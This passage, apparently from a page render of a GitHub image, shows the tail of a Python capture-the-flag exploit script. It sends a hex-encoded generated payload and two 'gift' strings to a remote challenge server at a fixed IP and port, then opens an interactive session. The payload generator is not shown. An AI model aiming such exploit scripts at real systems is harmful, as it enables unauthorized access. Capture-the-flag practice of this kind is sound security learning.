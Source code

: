 ```python
    code += gen_return()

    assert len(code) <= 2000
    hex_code = ''.join('%02x' % x for x in code)
    return hex_code


def main():
    gift1 = 'class'
    gift2 = 'dict'
    code = get_code()

    r = remote("111.186.58.164", 13337)
    r.recvuntil("in hex", timeout=1)
    r.recvuntil("in hex", timeout=1)
    r.sendline(code)
    r.recvuntil("gift1", timeout=1)
    r.sendline(gift1)
    r.recvuntil("gift2", timeout=1)
    r.sendline(gift2)
    r.interactive()


if __name__ == '__main__':
    main()
```
